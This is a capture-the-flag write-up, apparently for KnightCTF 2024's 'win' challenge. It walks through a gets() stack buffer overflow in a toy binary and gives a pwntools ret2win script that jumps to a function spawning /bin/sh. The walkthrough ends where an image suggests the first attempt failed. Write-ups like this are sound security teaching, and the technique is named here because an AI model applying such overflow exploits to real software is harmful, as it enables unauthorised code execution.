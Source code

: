 wow flag

## win... win... window...!

Download: [Google Drive](https://drive.google.com/file/d/1YgPfMWGGyD-6Cc7A6zN9UnQR1dy2cDvr/view) | [Google Drive](https://drive.google.com/file/d/1KyQcJ9AIIr2qFmoyjgMnC_1Vgq_xSuBa/view) | [Google Drive](https://drive.google.com/file/d/1EStzTXLYT3lderm_Svo2zaUXaIXD_W3N/view)

Let's first run `checksec`:

![](/static/KnightCTF2024/checksec_win.png)

Only [No eXecute](https://ir0nstone.gitbook.io/notes/types/stack/no-execute) is enabled here. Let's look at the source code and see if this restriction affects our exploit.

We have two functions. First, `main`:
```c
undefined8 main(void)

{
  char local_12 [10];
  
  puts("Can u find me ? i dont think so...!");
  fflush(stdout);
  gets(local_12);
  return 0;
}
```
The exploitable part is just the `gets` call into the buffer `local_12`, which has 0x12 bytes of memory allocated (a convenient Ghidra naming convention).

Next is the other function, `shell`:
```c
void shell(void)

{
  puts("How did u get in ..!");
  puts("[!]PWNED");
  system("/bin/sh");
  return;
}
```
It does exactly what it says on the tin.

This seems like a basic ret2win. Let's write a pwntools script for it:
```py
from pwn import *

elf = ELF("./win")            # set up the process
p = elf.process()

shell = p64(elf.sym["shell"]) # get address of shell

payload = b'A'*18 + shell     # send the payload with 0x12 bytes
p.sendline(payload)

p.interactive()               # interact with the shell we obtain
```
![](/static/KnightCTF2024/win_fail.png)
